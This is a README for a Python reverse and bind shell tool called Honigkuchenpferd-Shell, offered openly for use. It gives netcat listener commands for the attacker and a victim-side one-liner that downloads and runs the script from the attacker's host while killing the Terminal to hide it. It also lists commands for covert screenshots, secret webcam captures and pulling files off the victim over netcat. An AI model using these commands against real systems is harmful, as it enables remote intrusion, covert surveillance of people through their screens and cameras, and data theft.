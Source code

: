 ![Screenshot](picture/hacking-is-bad-mmmkay.jpg)

# Honigkuchenpferd-Shell

free to use but doesn't mess up mmmkay !

Simple Reverse and Bind Shell

python2.7 and python3

## Server
```
#reverse shell
nc -lvp 6666

#bind shell
nc <IP> 6666
```

## Victim
```
curl -s http://$IP:$PORT/Honigkuchenpferd.py | /usr/bin/python  & disown; killall Terminal
```

## macOS:
### Screenshot
```
screencapture -x /tmp/screenshot.jpg
```
## ffmpeg:
### Screenshot
```
ffmpeg -f x11grab -framerate 1 -i :0.0 -vframes 1 screenshot.jpg
```
### Selfie
```
#Selfie
ffmpeg -f video4linux2 -s 640x480 -i /dev/video0 -ss 0:0:1 -frames 1 /tmp/selfie.jpg
```

## download File
Attacker:
```
nc -lvp 6667 > sus_text.txt
OR
nc <IP> 6667 > sus_text.txt
```
Victim:
```
[Honigkuchenpferd /home/Doofy/Dokumente/sus_stuff] download sus_text.txt
```
